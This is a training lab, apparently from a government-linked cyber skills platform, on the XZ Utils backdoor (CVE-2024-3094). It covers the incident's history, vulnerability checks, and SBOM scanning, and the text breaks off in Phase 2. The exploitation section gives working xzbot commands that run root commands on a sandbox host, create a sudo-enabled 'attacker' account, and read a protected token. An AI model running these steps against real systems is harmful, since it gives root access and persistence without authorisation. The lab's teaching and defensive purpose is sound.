# XZ Utils - A Case Study on Supply Chain Trust

This lab draws on the XZ Utils supply chain compromise referenced in this <a href="https://www.cisa.gov/news-events/alerts/2024/03/29/reported-supply-chain-compromise-affecting-xz-utils-data-compression-library-cve-2024-3094" target="_blank">CISA alert</a> from April of 2024. The XZ Utils case study represents an incident where a supply chain trust issue led to the inclusion of a backdoor vulnerability in the XZ Utils open source software package. What's most interesting is how the vulnerability was introduced and how it was discovered (almost completely by accident). Had the vulnerability not been discovered, any system that patched its OpenSSH service with the vulnerable version of XZ Utils could have been compromised. The lab will cover the backstory to this incident and walk you through an example vulnerability test and exploitation of the backdoor.

One of the ways personnel can review software packages and libraries for vulnerabilities before installation is through the use of Software Bills of Materials (SBOMs). Additional guidance on the use and generation of SBOMs can be viewed at <a href="https://www.cisa.gov/sbom" target="_blank">CISA's SBOM information page<a>.

Further information and recommendations on using secure software can be found in the <a href="https://www.cisa.gov/sites/default/files/2023-01/ESF_SECURING_THE_SOFTWARE_SUPPLY_CHAIN_CUSTOMER.PDF" target="_blank">Securing the Software Supply Chain Guide</a>

 - This lab is expected to take 30 minutes

*Please consider filling out the lab feedback survey at the bottom of your screen. The survey is available to you at any time while conducting the lab.*

**Caution!** You must complete _all_ phases of the lab to receive your completion certificate.

## Learning Objectives

 - Understand the XZ Utils backdoor vulnerability
 - Perform exploitation of the XZ Utils backdoor vulnerability
 - Understand Software Bill of Materials
 - Analyze SBOM details for vulnerability information

## Learner Expectations

 - Learners should be comfortable with command-line operations and Secure Shell connections

## FOCAL and NICE Framework Mappings

This lab maps with <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a> area 2 (Vulnerability Management) by analyzing and removing vulnerabilities and area 4 (Cyber Supply Chain Risk Management) by validating open source software before use.

**NICE Work Role**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">Exploitation Analysis, Software Security Assessment, Vulnerability Analysis</a>

**NICE Tasks**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1118</a>: Identify vulnerabilities
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1359</a>: Perform penetration testing
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1624</a>: Conduct vulnerability analysis of software patches and updates
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1690</a>: Identify exploitable technical or operational vulnerabilities


<!-- cut -->

# Scenario

The lab begins by walking through the timeline and backstory of the XZ Utils case study. Then you will perform hands-on penetration testing and exploitation of the vulnerability in a sandbox environment.

The lab environment consists of three systems:
 - A Kali Linux system that will serve as the "attacker"
 - An unaffected or safe system
 - A vulnerable system that includes the XZ Utils vulnerability
 
You will test each system to identify which is vulnerable based on interactions with the OpenSSH service and then demonstrate an exploit of the vulnerability. The lab will also review the concept of Software Bill of Materials (SBOM). Then the lab will demonstrate how tools like Grype and Trivy can identify vulnerable libraries before using them in software.



## System Tools and Credentials

| system | OS type/link |  username | password |
|--------|---------|-----------|----------|
| Unaffected System | Ubuntu |user | tartans|
| Vulnerable System | Ubuntu |user | tartans|
| Kali | Kali Linux | user | tartans |

<!-- cut -->

## XZ Utils - Case Study Details 

The following section will outline, in detail, the events that led to the inclusion and discovery of the XZ Utils vulnerability. If you are already familiar with the story, you may skip ahead to Phase 1 of the lab. This initial section exploring the XZ Utils backdoor vulnerability is a 5-minute read.

<details> 
<summary> 
<h3>XZ Utils Vulnerability Backstory</h3> 
</summary> 
<p> 

#### What is XZ Utils? 

From XZ Util's own project page, "XZ Utils provide a general-purpose data-compression library plus command-line tools" `[1]`. Compared to other compression libraries and tools, such as gzip, XZ Utils can provide up to 30% more compression, albeit at the mild expense of longer compression times `[1,2]`. 

XZ Utils and the former LZMA2 Utils libraries are often part of other services that require data compression. One of which is the OpenSSH service that provides remote command-line access to systems and is often used by administrators. Estimates are that up to 70% of SSH servers are running some form or version of OpenSSH `[3]`. Keep this statistic in mind as we review the case. 

#### An Exercise of Social Engineering and Extreme Patience 

One of the most remarkable aspects of this case is the way the actor was able to gain the XZ Utils project maintainer's trust. Here is a rough timeline of the over 2 years of events that took place leading up to the inclusion of the vulnerability`[3]`: 

 - **October, 2021 - February, 2022**: User Jia Tin sends patches to the current XZ Utils maintainer, Lasse Colin, who integrates Tin's patches into a commit in February, 2022. 
 - **April, 2022 - June, 2022**: Several sockpuppet accounts (accounts that had no previous history or Internet presence up to this point and may have been operated by Tin) begin messaging Colin complaining of slow update times and pressuring him to appoint a second maintainer; a role that Tin has poised themselves to take with their previous patch submissions. 
 - **July, 2022 - December, 2022**: Lasse makes Tin an organization member of the XZ Utils GitHub project, adding him to email lists, and granting more access than Tin had previously. 
 - **January, 2023 - January, 2024**: Jia Tin takes over more and more responsibility for the project's maintenance, becomes a full-fledged maintainer and makes a few innocuous changes to the code that will serve the attack to come. 
 - **February, 2024**: Tin merges hidden backdoor binary code into the test input files included in the XZ Utils v5.6.0 unstable release. By the end of the month, errors are reported, and this likely led Jia Tin to accelerate the timeline of their plans. Some of the suggested "fixes" to the errors would prevent the backdoor in the future by unlinking the liblzma library from the libsystemd daemon - one that is necessary for the backdoor to work. 
 - **March, 2024**: Jia Tin releases XZ Utils v5.6.1, reporting to have fixed the previous errors, but this is a deception. The update includes a new backdoor in the test files that is less noisy to avoid detection. Tin hopes that the proposed solution of unlinking the libzma libraries will no longer be seen as necessary. 
 - **March 28, 2024**: Andres Freund discovers the bug and reports his findings to Debian who proactively rolls back XZ Utils v5.6.1 to v5.4.5. Meanwhile, other Linux distributions, such as Arch Linux and RedHat, announce the backdoor and advise users to downgrade the XZ Utils package if they have one of the vulnerable versions (5.6.0 or 5.6.1). 

#### Clever Concealment 

Part of the reason that the backdoor went relatively unnoticed to others was because the backdoor was added within the test files included with the 5.6.0 and 5.6.1 releases. Tin's own comments state, “This directory contains bunch of files to test handling of .xz, .lzma (LZMA_Alone), and .lz (lzip) files in decoder implementations. Many of the files have been created by hand with a hex editor, thus there is no better ‘source code’ than the files themselves,” `[3]`. The hope was that these test files would not be scrutinized to the same degree as the actual source code files. In addition, the malicious test files were only included in the tarball download files, and not directly on the GitHub project files list, further obfuscating their existence. Upon decompression of the package during the build process, the backdoor was added to the XZ Utils and liblmza libraries. 

An infographic created by Thomas Roccia is included below: 

 

*https://x.com/fr0gger_/status/1774342248437813525/photo/1* 

#### Discovery 

The backdoor's discovery by Andres Freund was unintentional in nature. Andres, a Postgres developer for Microsoft, discovered that creation of SSH logins were generating several Valgrind errors and that connections took slightly longer than usual using more CPU than normal. Valgrind is a tool used to detect memory management bugs in Linux programs, and Andres was so used to his systems that he noticed the fractionally longer login times for his SSH logins to connect. The Valgrind output seemed to point to liblzma and to xz utils in large. He then discovered the obfuscated code that is run by the liblzma and XZ Utils process during his SSH login session `[4]`. 

Additionally, in the case where the OpenSSH service is run by the systemd daemon at boot, the OpenSSH service is run in the context of the root user, which in Linux, is tantamount to the highest privileged user on the system. Anyone who would exploit this backdoor would then also be granted root-level access to the underlying system. 

After being reported the vulnerability was immediately given a severity score of 10, the highest a vulnerability can have, and the designation of <a href="https://nvd.nist.gov/vuln/detail/cve-2024-3094" target="_blank">CVE-2024-3094</a>. 

#### Lessons Learned 

Luckily, there are a handful of mitigating factors that prevented this backdoor vulnerability from becoming a larger issue. 

 - 1: The backdoor was caught relatively early, and many had likely not updated or upgraded their current version of XZ Utils to one of the compromised versions. Unless operators were hyper-diligent about updating their packages, the pool of vulnerable systems would have been small at first. However, remember that up to 70% of systems with an SSH login service use a version of OpenSSH, so the potential for harm was great on a long enough timescale. 
 - 2: The backdoor relied on a specific public/private key pair to connect. This means that only the holder of the required private key would have been able to leverage the backdoor. At the time of discovery, the likelihood that the actor, Jai Ti, was going to personally target systems of interest would have been very low. However, it would have been possible for this actor to sell or offer this private key to those who would see the backdoor used for malicious intent. 
 - 3: Due to the possibly rushed execution of the attack to avoid detection, the implementation of the backdoor tended to be buggy and may not have worked on every system that leveraged XZ Utils and the liblzma libraries. Andres alludes to crashes caused by the backdoor in version 5.6.0, meaning that those who did not update to v5.6.1 had a lower chance of being exploited in the wild. 

So, what did we learn from this incident? Should we trust open source software? Overall, we likely can, as the entire purpose of open source is for the community to review and vet software to find and correct errors, bugs, and vulnerabilities. While this backdoor vulnerability had the potential to cause massive harm, it was caught relatively quickly thanks to the diligence of the larger IT and cybersecurity communities. However, this example demonstrates how the implied trust behind well-known and well-used open source software could be used for malicious purposes. 

</p> 
</details> 

## Phase 1: Test and Exploit the XZ Utils Vulnerability 

In this phase of the lab, you will test for the presence of the vulnerability, just as the discoverer did, and then perform the exploitation of the XZ Utils vulnerability. 

<details>
<summary>
<h3>Test for the Presence of the XZ Utils Vulnerability</h3>
</summary>
<p>

First, we'll walk through how to know if a system could be affected by the backdoor. We are looking for four key items:

 - The system is using `OpenSSH` for its SSH service
 - OpenSSH includes the `liblzma` library as a dependency
 - OpenSSH is `executed by systemd` at startup
 - The version of XZ Utils is either `5.6.0` or `5.6.1`

1. Open the `Unaffected-System` console and login with the credentials `user|tartans`.

2. (**Unaffected-System**) To check whether the system is running SSH, and more specifically OpenSSH, run the following command:

```
sshd -V
```



We can see from the output that our system is indeed using OpenSSH.

3. (**Unaffected-System**) To check whether OpenSSH includes liblzma as a library dependency, run the following command:

```
ldd $(which sshd)
```



The output lists all the shared library dependencies and objects for the service in question. The output also clearly shows that OpenSSH is dependent on the liblzma library.

4. (**Unaffected-System**) To check whether OpenSSH is executed by systemd at startup, run the following commands in succession:

```
ps -eo pid,ppid,cmd | grep [s]shd
ps -eo pid,ppid,cmd | head
ls -l /sbin/init
```



All of the relevant output will fit onto the screen. The first output prints the process id, parent process id, and command name for any running process that includes the name "sshd". We can see from this output that the parent process id for the sshd service is `1`. The second output simply lists the same information for the first 10 entries of the process list, allowing us to see that process 1 corresponds to `/sbin/init`. The third and final output highlights that /sbin/init is symlinked (another way of saying shortcut) to `/lib/systemd/systemd`. Since systemd is responsible for managing services at startup, this tells us that the sshd service is started at boot by the systemd account.

Therefore, we have proven that the first three criteria pass:

 - The system is using `OpenSSH` for its SSH service &#x2705;
 - OpenSSH includes the `liblzma` library as a dependency &#x2705;
 - OpenSSH is `executed by systemd` at startup &#x2705;

5. (**Unaffected-System**) Lastly, to tell which version of XZ Utils is currently installed, run the following command:

```
xz --version
```



We can see from the output that this system is not using one of the vulnerable xz-util version. Therefore, the final criteria for being a candidate for the backdoor is not true.

 - The version of XZ Utils is either `5.6.0` or `5.6.1` &#x274E;

6. Open the `Vulnerable-System` console and login with the credentials `user|tartans`.

7. (**Vulnerable-System**) Repeat steps 2-5 above for this system. Everything should be more less the same until you check the version of xz.



This time we see that the system is using version 5.6.1, which is one of the vulnerable versions of XZ Utils.

8. (**Vulnerable-System**) Additionally, we can verify that the liblzma shared object that OpenSSH is using is the vulnerable version by running the following command:

```
ls -l /usr/local/lib/liblzma.so.5
```

When you ran the `ldd $(which sshd)` command you would have noticed that OpenSSH is still pointing to the liblzma.so.5 shared object, but the above output shows that this is symlinked to the vulnerable shared object of liblzma (liblzma.so.5.6.1).



In the next section, you will exploit the vulnerable system and test the effects.

</p>
</details>

<details>
<summary>
<h3>Exploit the XZ Utils Vulnerability</h3>
</summary>
<p>

In this section you will perform the exploitation of the XZ Utils backdoor using a proof-of-concept tool named <a href="https://github.com/amlweems/xzbot?tab=readme-ov-file#backdoor-demo" target="_blank">xzbot</a>, which was created by GitHub user `amlweems`.

1. Open the `Kali-XZ` console and login with the credentials `user|tartans`, if not already logged in.

2. (**Kali-XZ**) Open Firefox and browse to the hosted files site at `https://skills.hub/lab/files` (`https://10.5.5.5/lab/files`).

3. (**Kali-XZ, Firefox**) Download the `xzbot` standalone executable file to the default Downloads directory.



The vulnerable server has been preconfigured with a private key that matches the public key used by the xzbot executable. Recall that in the published backdoor the private key of the attacker was unknown, so the keys in the lab were replaced using a pre-generated key pair that will allow us to perform the exploit.

4. (**Kali-XZ, Terminal**) Open a Terminal and change directories, set the executable flag for xzbot and then view the help options with the following commands:

```
cd /home/user/Downloads/
chmod +x xzbot
./xzbot -h
```



Based on the help options, we need to supply the SSH server IP and port, a command, and a seed value. For the lab we can ignore the seed value option as the default seed value of 0 was already used to generate the new key pair. This leaves just the IP, port, and command to run.

5. (**Kali-XZ, Terminal**) Exploit the OpenSSH server with the following command, where the `id` command will output the context in which the command was executed to the file `/home/user/id` on the vulnerable system:

```
./xzbot -addr 10.5.5.250:22 -cmd "id > /home/user/id"
```

You should see the following output.



Even though the output says the SSH handshake failed, we can verify that the command was run by looking on the vulnerable system.

6. (**Vulnerable-System**) Switch to the **Vulnerable-System** console and view the contents of the `id` file you just created with the following command:

```
cat /home/user/id
```



The output shows that when we ran `id` through the xzbot backdoor connection, we were running as the root user. So, what could we do with this level of access as a malicious actor?

7. (**Kali-XZ, Terminal**) Return to the **Kali-XZ** console and run the following commands in succession:

```
./xzbot -addr 10.5.5.250:22 -cmd "useradd -m -s /bin/bash attacker"
./xzbot -addr 10.5.5.250:22 -cmd "echo 'attacker:tartans' | chpasswd"
./xzbot -addr 10.5.5.250:22 -cmd "gpasswd -a attacker sudo"
```

These commands will appear to run silently to you, but they will perform consequential tasks on the target system.

 - The first command creates a new user named `attacker`, creates a home directory for it, and then sets the user's default shell to bash
 - The second command sets the `attacker` password to `tartans`
 - The third command adds the `attacker` user to the sudoers group

8. (**Kali-XZ, Terminal**) Login to the vulnerable system using the account you just created and a password of "tartans" (enter "yes" when asked if you are sure you want to connect):

```
ssh attacker@10.5.5.250
```

9. (**Kali-XZ, Terminal, SSH Session to Vulnerable-System**) To validate that you are indeed a sudoer for the system, run the following command with the sudo password of `tartans` and the view the contents of the flag file in the root directory:

```
sudo cat /root/token
```

**Knowledge Check Question 1:** *What is the token string found in the root directory once the vulnerable system has been successfully exploited?*

Note that this directory was protected against the standard 'user' account initially so that you could not view it until you had a sudoer account at your disposal.

10. (**Kali-XZ, Terminal, SSH Session to Vulnerable-System**) Once you have the token file contents you may end the SSH session to the Vulnerable-System with the following command:

```
exit
```


You have just circumvented the standard protections for this system by creating a new privileged user account by using the backdoor in liblzma. Now that an account is created, an attacker could go about making further changes to lock out other users, erase logs to cover their tracks, and set up persistence or pivot to other systems.

#### Grading Check

(**Kali-XZ, Firefox**) To check your work, browse to the grading page at `https://skills.hub/lab/tasks` or `(https://10.5.5.5/lab/tasks)` from the Kali system. Click the `Submit/Re-Grade Tasks` button to trigger the grading checks. Refresh the results after a few moments to see your results.



Grading Check 1: Successfully added the attacker user to the vulnerable system and added the attacker to the sudoers group.
 - New user `attacker` was added to the Vulnerable-System
 - The `attacker` user is part of the sudoers group

`Copy the token or flag strings to the corresponding question submission field to receive credit.`

### Optional Validation

1. (**Kali-XZ, Terminal**) In order to view SSH connections times and replicate what the researcher observed, you can run the following command against the Vulnerable-System:

```
(time sshpass -p 'tartans' ssh -o StrictHostKeyChecking=no user@10.5.5.250 "pidstat -C sshd 1 3") 2>&1 | grep real
```

2. (**Unaffected-System**) For the Unaffected-System you will first have to run `ip addr` locally to determine the system's IP address.



3. (**Kali-XZ, Terminal**) Then use this IP address in the same command as above, replacing the `.250` with the correct final octet of the Unaffected-System's Ip address.

You should notice, even on repeated tests, that the Vulnerable-System always connects more slowly than the Unaffected-System.



It's quite impressive that the researcher was able to notice this small difference simply by "feel", which caused him to dig deeper and led to the discovery of the backdoor.

</p>
</details>

## Phase 2: Reviewing SBOMs for Vulnerable Packages

<details>
<summary>
<h3>Investigate the XZ Utils Package</h3>
</summary>
<p>

For this phase of the lab you will be generating and reviewing a few sample SBOMs, including one taken from the vulnerable systems.

| &#128270; Software Bill of Materials (SBOM) |
|---|
|_As stated previously, SBOMs are Software Bills of Materials. SBOMs list the various libraries or even applications for a given project, package, or file. SBOMS can even be created from the contents of a system's filesystem. SBOMs are useful for creating an inventory of the various software libraries that are included in a package or project, or the various libraries and programs in a certain directory, compressed package, or other file. SBOM data can also be used to scan for known vulnerabilities attached to the specific versions of libraries, applications, or programs within the SBOM inventory list. These results can be valuable when evaluating open source software and allows personnel to correct vulnerable items before the software is used._ |

| &#128736; Syft |
|---|
|_Syft is an open source command-line interface tool used for creating SBOMs. Syft was used in this lab due to its simplicity. Syft gathers information about a target and performs additional metadata gathering when run online._ |

| &#128736; Grype |
|---|
|_Grype is an open source command-line interface tool used to scan SBOM's for known vulnerabilities. Grype leverages a vulnerability database but can be run offline as long as the database was stored locally._ |

1. (**Kali-XZ**) Open Firefox (if not already open) and browse to the hosted files site at `https://skills.hub/lab/files` (`https://10.5.5.5/lab/files`).

2. (**Kali-XZ, Firefox** Download the following files:
 - juiceshop-sbom.json: A CylconeDX formatted SBOM created from the OWASP Juice Shop site (retrieved from <a href="https://github.com/CycloneDX" target="_blank">CylconeDX</a>)
 - xz.json: An SPDX formatted SBOM based on the Vulnerable-System's xz-5.6.1 package
 - xz-5.6.1.tar.gz: The original XZ-Utils tarball including the vulnerable version of XZ Utils


3. (**Kali-XZ, Terminal**) Change working directories to the Downloads directory with the following commands:

```
